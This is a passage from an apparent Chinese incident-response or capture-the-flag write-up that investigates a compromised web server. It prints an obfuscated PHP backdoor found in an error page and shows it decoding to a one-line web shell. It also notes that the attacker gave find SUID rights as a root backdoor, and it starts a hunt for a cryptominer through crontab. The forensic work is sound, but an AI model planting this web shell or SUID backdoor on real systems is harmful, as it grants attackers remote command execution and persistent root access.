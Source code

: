 d 盾扫描网站的工作目录

\\wwwroot\\error\\404.php 存在后门

```plain
eval(gzuncompress(base64_decode('eJxLLUvM0VCJD/APDolWT85NUY/VtAYARQUGOA==')));
```

本地 run 一下

```plain
string(20) "eval($_POST['cmd']);"
```

**4、黑客提权后设置的后门文件名称是？flag 格式：flag{后门文件绝对路径加上名称}，如：flag{/etc/passwd}**

提权后就是 root 直接看 root 的历史执行命令

[![](assets/1708919884-818202869700ecbce3d93f79c737456c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216002827-3f77c64c-cc1f-1.png)

find 被赋予了 suid 权限，攻击者可以利用 suid 提权做后门 find 文件被做了后门

**5、对黑客上传的挖矿病毒进行分析，获取隐藏的 Flag**

找挖矿程序就要找计划任务但是 crontab 指令用不了

看/etc/crontab

[![](assets/1708919884-f27bdfcf7a3915cdf1e346e920ef5623.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216002833-42be62fc-cc1f-1.png)
